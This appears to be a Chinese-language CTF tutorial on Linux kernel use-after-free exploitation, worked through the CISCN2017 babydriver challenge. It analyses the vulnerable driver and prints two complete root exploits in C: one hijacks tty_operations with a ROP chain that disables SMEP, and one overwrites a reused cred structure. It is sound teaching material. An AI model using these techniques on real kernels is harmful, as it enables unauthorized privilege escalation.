

# kernel UAF

UAF 即 Use After Free，通常指的是**對於釋放後未重置的垂懸指針的利用**，此前在用戶態下的 heap 階段對於 ptmalloc 的利用很多都是基於UAF漏洞進行進一步的利用。

在 CTF 當中，內核的“堆內存”主要指的是直接映射區（direct mapping area），常用的分配函數 kmalloc 從此處分配內存，常用的分配器爲 slub，若是在 kernel 中存在着垂懸指針，我們同樣可以以此完成對 slab/slub 內存分配器的利用，通過 Kernel UAF 完成提權。

## 內核堆利用與綁核

slub allocator 會優先從當前核心的 `kmem_cache_cpu` 中進行內存分配，在多核架構下存在多個 `kmem_cache_cpu` ，由於進程調度算法會保持核心間的負載均衡，因此我們的 exp 進程可能會被在不同的核心上運行，這也就導致了利用過程中 kernel object 的分配有可能會來自不同的 `kmem_cache_cpu` ，這使得利用模型變得複雜，也降低了漏洞利用的成功率。

> 比如說你在 core 0 上整了個 double free，準備下一步利用時 exp 跑到 core 1去了，那就很容易讓人摸不着頭腦 :（

因此爲了保證漏洞利用的穩定，**我們需要將我們的進程綁定到特定的某個 CPU 核心上**，這樣 slub allocator 的模型對我們而言便簡化成了 `kmem_cache_node + kmem_cache_cpu` ，我們也能更加方便地進行漏洞利用。

現筆者給出如下將 exp 進程綁定至指定核心的模板：

```c
#include <sched.h>

/* to run the exp on the specific core only */
void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}
```

## 通用 kmalloc flag

`GFP_KERNEL` 與 `GFP_KERNEL_ACCOUNT`  是內核中最爲常見與通用的分配 flag，常規情況下他們的分配都來自同一個 `kmem_cache` ——即通用的 `kmalloc-xx` 。

這兩種 flag 的區別主要在於 `GFP_KERNEL_ACCOUNT` 比 `GFP_KERNEL` 多了一個屬性——**表示該對象與來自用戶空間的數據相關聯**，因此我們可以看到諸如 `msg_msg` 、`pipe_buffer`、`sk_buff的數據包` 的分配使用的都是 `GFP_KERNEL_ACCOUNT` ，而 `ldt_struct` 、`packet_socket` 等與用戶空間數據沒有直接關聯的結構體則使用 `GFP_KERNEL`。

在5.9 版本之前`GFP_KERNEL` 與 `GFP_KERNEL_ACCOUNT` 存在隔離機制，在 [這個 commit](https://github.com/torvalds/linux/commit/10befea91b61c4e2c2d1df06a2e978d182fcf792) 中取消了隔離機制，自內核版本 5.14 起，在 [這個 commit](https://github.com/torvalds/linux/commit/494c1dfe855ec1f70f89552fce5eadf4a1717552) 當中又重新引入：

- 對於開啓了 `CONFIG_MEMCG_KMEM` 編譯選項的 kernel 而言（通常都是默認開啓），其會爲使用 `GFP_KERNEL_ACCOUNT` 進行分配的通用對象**創建一組獨立的 `kmem_cache` ——名爲 `kmalloc-cg-*`** ，從而導致使用這兩種 flag 的 object 之間的隔離。

## slub 合併 & 隔離

slab alias 機制是一種對同等/相近大小 object 的 `kmem_cache` 進行**複用**的一種機制：

- 當一個 `kmem_cache` 在創建時，若已經存在能分配相等/近似大小的 object 的 `kmem_cache` ，則**不會創建新的 kmem\_cache，而是爲原有的 kmem\_cache 起一個 alias，作爲“新的” kmem\_cache 返回**。

舉個🌰，`cred_jar` 是專門用以分配 `cred` 結構體的 `kmem_cache`，在 Linux 4.4 之前的版本中，其爲 `kmalloc-192` 的 alias，即 cred 結構體與其他的 192 大小的 object 都會從同一個 `kmem_cache`——`kmalloc-192` 中分配。

對於初始化時設置了 `SLAB_ACCOUNT` 這一 flag 的 `kmem_cache` 而言，則會新建一個新的 `kmem_cache` 而非爲原有的建立 alias，🌰如在新版的內核當中 `cred_jar` 與 `kmalloc-192` 便是兩個獨立的 `kmem_cache`，**彼此之間互不幹擾**。

## 例題：CISCN2017 - babydriver
[attachment here](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel/CISCN2017-babydriver)

### 分析
先解壓 rootfs.cpio 看一下有什麼文件
```bash
CISCN2017_babydriver [master●] mkdir core
CISCN2017_babydriver [master●] cd core 
core [master●] mv ../rootfs.cpio rootfs.cpio.gz
core [master●●] gunzip ./rootfs.cpio.gz 
core [master●] ls
rootfs.cpio
core [master●] cpio -idmv < rootfs.cpio 
.
etc
etc/init.d
etc/passwd
etc/group
...
...
usr/sbin/rdev
usr/sbin/ether-wake
tmp
linuxrc
home
home/ctf
5556 塊
core [master●] ls
bin  etc  home  init  lib  linuxrc  proc  rootfs.cpio  sbin  sys  tmp  usr
core [master●] bat init
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: init
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh
   2   │
   3   │ mount -t proc none /proc
   4   │ mount -t sysfs none /sys
   5   │ mount -t devtmpfs devtmpfs /dev
   6   │ chown root:root flag
   7   │ chmod 400 flag
   8   │ exec 0</dev/console
   9   │ exec 1>/dev/console
  10   │ exec 2>/dev/console
  11   │
  12   │ insmod /lib/modules/4.4.72/babydriver.ko
  13   │ chmod 777 /dev/babydev
  14   │ echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
  15   │ setsid cttyhack setuidgid 1000 sh
  16   │
  17   │ umount /proc
  18   │ umount /sys
  19   │ poweroff -d 0  -f
  20   │
───────┴────────────────────────────────────────────────────────────
```
根據 init 的內容，12 行加載了 `babydriver.ko` 這個驅動，根據 pwn 的一般套路，這個就是有漏洞的 LKM 了。init 的其他命令都是 linux 常用的命令，就不再解釋了。

把這個驅動文件拿出來。

```bash
core [master●] cp ./lib/modules/4.4.72/babydriver.ko ..
core [master●] cd ..
CISCN2017_babydriver [master●] check ./babydriver.ko
./babydriver.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=8ec63f63d3d3b4214950edacf9e65ad76e0e00e7, with debug_info, not stripped
[*] '/home/m4x/pwn_repo/CISCN2017_babydriver/babydriver.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```
沒有開 PIE，無 canary 保護，沒有去除符號表，很 nice。

用 IDA 打開分析，既然沒有去除符號表，shift + F9 先看一下有什麼結構體，可以發現如下的結構體：
```asm
00000000 babydevice_t    struc ; (sizeof=0x10, align=0x8, copyof_429)
00000000                                         ; XREF: .bss:babydev_struct/r
00000000 device_buf      dq ?                    ; XREF: babyrelease+6/r
00000000                                         ; babyopen+26/w ... ; offset
00000008 device_buf_len  dq ?                    ; XREF: babyopen+2D/w
00000008                                         ; babyioctl+3C/w ...
00000010 babydevice_t    ends
00000010
```

再看一下主要函數

**babyioctl:** 定義了 0x10001 的命令，可以釋放全局變量 babydev\_struct 中的 device\_buf，再根據用戶傳遞的 size 重新申請一塊內存，並設置 device\_buf\_len。
```C
// local variable allocation has failed, the output may be wrong!
void __fastcall babyioctl(file *filp, unsigned int command, unsigned __int64 arg)
{
  size_t v3; // rdx
  size_t v4; // rbx
  __int64 v5; // rdx

  _fentry__(filp, *(_QWORD *)&command);
  v4 = v3;
  if ( command == 0x10001 )
  {
    kfree(babydev_struct.device_buf);
    babydev_struct.device_buf = (char *)_kmalloc(v4, 0x24000C0LL);
    babydev_struct.device_buf_len = v4;
    printk("alloc done\n", 0x24000C0LL, v5);
  }
  else
  {
    printk("\x013defalut:arg is %ld\n", v3, v3);
  }
}
```

**babyopen:** 申請一塊空間，大小爲 0x40 字節，地址存儲在全局變量 babydev\_struct.device\_buf 上，並更新 babydev\_struct.device\_buf\_len
```C
int __fastcall babyopen(inode *inode, file *filp)
{
  __int64 v2; // rdx

  _fentry__(inode, filp);
  babydev_struct.device_buf = (char *)kmem_cache_alloc_trace(kmalloc_caches[6], 0x24000C0LL, 0x40LL);
  babydev_struct.device_buf_len = 64LL;
  printk("device open\n", 0x24000C0LL, v2);
  return 0;
}
```

**babyread:** 先檢查長度是否小於 babydev\_struct.device\_buf\_len，然後把 babydev\_struct.device\_buf 中的數據拷貝到 buffer 中，buffer 和長度都是用戶傳遞的參數
```C
void __fastcall babyread(file *filp, char *buffer, size_t length, loff_t *offset)
{
  size_t v4; // rdx

  _fentry__(filp, buffer);
  if ( babydev_struct.device_buf )
  {
    if ( babydev_struct.device_buf_len > v4 )
      copy_to_user(buffer, babydev_struct.device_buf, v4);
  }
}
```

**babywrite:** 類似 babyread，不同的是從 buffer 拷貝到全局變量中
```C
void __fastcall babywrite(file *filp, const char *buffer, size_t length, loff_t *offset)
{
  size_t v4; // rdx

  _fentry__(filp, buffer);
  if ( babydev_struct.device_buf )
  {
    if ( babydev_struct.device_buf_len > v4 )
      copy_from_user(babydev_struct.device_buf, buffer, v4);
  }
}
```

**babyrelease:** 釋放空間，沒什麼好說的
```C
int __fastcall babyrelease(inode *inode, file *filp)
{
  __int64 v2; // rdx

  _fentry__(inode, filp);
  kfree(babydev_struct.device_buf);
  printk("device release\n", filp, v2);
  return 0;
}
```

還有 babydriver\_init() 和 babydriver\_exit() 兩個函數分別完成了 **/dev/babydev** 設備的初始化和清理，查一下函數的用法即可，不再分析。

### 思路

沒有用戶態傳統的溢出等漏洞，但存在一個僞條件競爭引發的 UAF 漏洞：

- 如果我們同時打開兩個設備，第二次會覆蓋第一次分配的空間，因爲 babydev\_struct 是全局的。同樣，如果釋放第一個，那麼第二個其實是被是釋放過的，這樣就造成了一個 UAF。

接下來考慮如何通過 UAF 劫持程序執行流，這裏我們選擇 `tty_struct` 結構體作爲 victim object。

在 ```/dev``` 下有一個僞終端設備 ```ptmx``` ，在我們打開這個設備時內核中會創建一個 ```tty_struct``` 結構體，與其他類型設備相同，tty驅動設備中同樣存在着一個存放着函數指針的結構體 ``` tty_operations ```。

那麼我們不難想到的是我們可以通過 UAF 劫持 ```/dev/ptmx``` 這個設備的 ```tty_struct``` 結構體與其內部的 ```tty_operations``` 函數表，那麼在我們對這個設備進行相應操作（如write、ioctl）時便會執行我們佈置好的惡意函數指針。

由於沒有開啓SMAP保護，故我們可以在用戶態進程的棧上佈置ROP鏈與 ```fake tty_operations``` 結構體。

> 結構體 ```tty_struct```位於```include/linux/tty.h``` 中，```tty_operations``` 位於 ```include/linux/tty_driver.h``` 中。
 
內核中沒有類似 ```one_gadget``` 一類的東西，因此爲了完成ROP我們還需要進行一次**棧遷移**

使用gdb進行調試，觀察內核在調用我們的惡意函數指針時各寄存器的值，我們在這裏選擇劫持 ```tty_operaionts``` 結構體到用戶態的棧上，並選擇任意一條內核gadget作爲fake tty函數指針以方便下斷點：



我們不難觀察到，在我們調用```tty_operations->write```時，**其rax寄存器中存放的便是tty\_operations結構體的地址**，因此若是我們能夠在內核中找到形如```mov rsp, rax```的gadget，便能夠成功地將棧遷移到```tty_operations```結構體的開頭。

使用ROPgadget查找相關gadget，發現有兩條符合我們要求的gadget：


gdb調試，發現第一條gadget其實等價於```mov rsp, rax ; dec ebx ; ret```：


那麼利用這條gadget我們便可以很好地完成棧遷移的過程，執行我們所構造的ROP鏈。

而```tty_operations```結構體開頭到其write指針間的空間較小，因此我們還需要進行二次棧遷移，這裏隨便選一條改rax的gadget即可：


### Exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

int main(void)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    //get the addr
    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t rop[0x20], p = 0;
    rop[p++] = POP_RDI_RET;
    rop[p++] = 0x6f0;
    rop[p++] = MOV_CR4_RDI_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = getRootPrivilige;
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = IRETQ_RET;
    rop[p++] = getRootShell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;

    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;

    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    size_t fake_tty[0x20];
    int fd3 = open("/dev/ptmx", 2);
    read(fd2, fake_tty, 0x40);
    fake_tty[3] = fake_op;
    write(fd2, fake_tty, 0x40);

    write(fd3, buf, 0x8);

    return 0;
}
```

### Old Solution

這道題在當年的解法是**通過 UAF 修改該進程的 cred 結構體的 uid、gid 爲0**，十分簡單十分白給。

但是**此種方法在較新版本 kernel 中已不可行，我們已無法直接分配到 cred\_jar 中的 object**，這是因爲 cred\_jar 在創建時設置了 `SLAB_ACCOUNT` 標記，在 `CONFIG_MEMCG_KMEM=y` 時（默認開啓）**cred\_jar 不會再與相同大小的 kmalloc-192 進行合併**

> 來自內核源碼 4.5 `kernel/cred.c`
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> }
> ```
>
> 本題（4.4.72）：
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> }
> ```

因此這裏考慮介紹更加通用的解法，對舊的解法感興趣的可以參考如下exp：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    ioctl(fd1, 0x10001, 0xa8); /* object to be reused as the child's cred */
    close(fd1);

    int pid = fork();

    if(pid < 0) {
        printf("\033[31m\033[1m[x] Unable to fork.\033[0m\n");
        return -1;
    }
    else if(pid == 0) { /* the child to get the UAF cred */
        char buf[30];

        memset(buf, '\0', sizeof(buf));
        write(fd2, buf, 28);  /* overwrite uid&gid to 0 directly */

        if(getuid() == 0) {
            puts("\033[32m\033[1m[+] Successful to get the root.\033[0m\n");
            system("/bin/sh");
            return 0;
        } else {
            printf("\033[31m\033[1m[x] Failed to get the root.\033[0m\n");
            return -1;
        }
    }
    else { /* the parent */
        wait(NULL); /* waiting for the child to be done */
    }

    return 0;
}
```


## Reference

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x04-Kernel-Heap-Use-After-Free

https://bbs.pediy.com/thread-247054.htm

https://whereisk0shl.top/NCSTISC%20Linux%20Kernel%20pwn450%20writeup.html

http://muhe.live/2017/07/13/babydriver-writeup/

https://www.anquanke.com/post/id/86490
